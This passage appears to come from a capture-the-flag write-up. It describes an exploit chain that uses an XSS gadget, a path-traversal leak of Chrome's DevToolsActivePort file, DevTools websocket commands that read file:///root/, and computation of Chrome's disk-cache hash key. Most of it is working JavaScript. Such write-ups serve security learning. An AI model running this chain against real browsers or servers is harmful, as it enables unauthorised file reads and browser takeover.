 We can do that with something like this :

```js
ws.send(JSON.stringify({ id: 0, method: 'Page.navigate', params: { url: 'file:///root/' } }));
ws.send(JSON.stringify({ id: 1, method: 'Runtime.evaluate', params: { expression: 'alert(document.body.innerHTML)' } }));
``` 


{{< alert icon="fire" cardColor="#7d571e">}}
From now, everything is through the XSS gadget !
{{< /alert >}}

1) **Open a base tab, don't care about is content**

This will be our websocket target 

```js
const targetPageUrl = 'https://secu.fun/exploit';

window.open(targetPageUrl, '_blank'); // This will be our exploit page, must not be empty
```

2) **We will need to leak the devtools port**

One of the best-known methods for that is to **scan all possible ports** from the browser, but it can take a long time and we can simply read the file `DevToolsActivePort` from the Nginx.

```js
fetch('http://localhost/logs../browser_cache/DevToolsActivePort') // Leak the port, no SOP here
    .then(response => response.text())
    .then(text => {
        const lines = text.split('\n');
        if (lines.length > 0) {
            const port = lines[0].trim();
```

3) **Then open a `/json/list` tab**

This tab will contains all the websockets URL, including our **base tab**

```js
const base_url = "http://localhost";
const WS_urls = `${base_url}:${port}/json/list`

window.open(WS_urls); // we cache the page of the /json/list, SOP here because of different port than the XSS
```

4) **Compute the hash key from cache key**

We've the url and the algo, let's compute it !

```js
const cache_key = `1/0/_dk_${base_url} ${base_url} ${base_url}:${port}/json/list`; // we create the hash_key from the URL

// Uint8Array
const encoder = new TextEncoder();
const data = encoder.encode(cache_key);

//SHA1 the cache_key
const hashBuffer = await crypto.subtle.digest('SHA-1', data);
const hashArray = Array.from(new Uint8Array(hashBuffer));

// Take only 8 first bytes and reverse them
const truncatedReversedHash = hashArray.slice(0, 8).reverse();

// Finally hex them
const hashHex = truncatedReversedHash.map(b => b.toString(16).padStart(2, '0')).join('');
const hash = hashHex + '_0'; // Depend of data type, for a classic HTML is generally _0
```
